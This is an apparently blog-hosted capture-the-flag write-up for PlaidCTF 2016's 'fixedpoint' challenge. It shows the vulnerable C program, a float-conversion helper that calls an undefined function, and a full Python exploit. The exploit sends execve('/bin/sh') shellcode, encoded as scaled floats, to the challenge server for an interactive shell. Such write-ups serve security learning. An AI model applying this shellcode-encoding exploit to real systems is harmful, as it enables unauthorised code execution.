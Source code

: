 ```yaml
---
layout: post
title: pctf 2016 fixedpoint writeup
category: writeup
---
```


```C
#include <stdlib.h>
#include <sys/mman.h>
#include <stdio.h>

int main(int argc, char** argv) {
  float* array = mmap(0, sizeof(float)*8192, 7, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
  int i;
  int temp;
  float ftemp;

  for (i = 0; i < 8192; i++) {
    if (!scanf("%d", &temp)) break;
    array[i] = ((float)temp)/1337.0;
  }

  write(1, "here we go\n", 11);
  (*(void(*)())array)();
}
```

All i did was just make shellcode and * 1337.0.
but float is not so precise to control lsb, so i use float with
0x46000000 ~ 0x48000000 (8192.0 ~ 131072.0) which is stable for x * 1337.0 / 1337.0.
(0x46 : inc esi, 0x48 : dec eax)

I use hex-to-int convert code to find payload.

```C
--helper.c--
int* hex_to_int(float a)
{
    float* x = (float*)&a;
    *x = *x * 1337.0;
    return (int*)x;
}
int main()
{
    int a;
    float *ftemp;

    scanf("%08x",&a);
    float* c = (float*)&a;
    printf("%f\n",*c);
    *c = *c * 1337.0;
    printf("%f\n", *c);
    int b = (int)(*c);
    printf("%08x\n",b);
    printf("%08x\n",float_i2f(a));
    //printf("%08x\n", ftemp);
}
```

full exploit code:
```python
import pwnbox

local = False

if local:
    p = pwnbox.pipe.ProcessPipe('gdb -q fixedpoint_02dc03c8a5ae299cf64c63ebab78fec7')
else:
    p = pwnbox.pipe.SocketPipe('fixedpoint.pwning.xxx',7777)

shellCode = ['31c990','31c990','519090','31d290','b26890','c1e208','b27390','c1e208','b22f90','c1e208','b22f52','9031d2','b26e90','c1e208','b26990','c1e208','b26290','c1e208','b22f52','9089e3','515390','89e190','31c090','31d290','b00b90','cd8090']



def helper(a):
    tempP = pwnbox.pipe.ProcessPipe('./helper')
    tempP.write(a+'\n')
    retVal = tempP.read_until('\n')
    retVal = tempP.read_until('\n').split('.')[0]
    tempP.close()
    return retVal


#print helper()

if local:
    p.read_until('(gdb)')
    #p.write('b* 0x80484DA\n')
    #p.read_until('(gdb)')
    #p.write('r\n')
    #p.read_until('(gdb)')
    #p.write('b *$eax\n')
    #p.read_until('(gdb)')
    p.write('r\n')
    #p.interact()

for i in shellCode[:-4]:
    p.write(helper('48'+i[4:] + i[2:4]+ i[0:2])+'\n')

for i in shellCode[-4:]:
    p.write(helper('46'+i[4:] + i[2:4] + i[0:2]) + '\n')



p.interact()
```
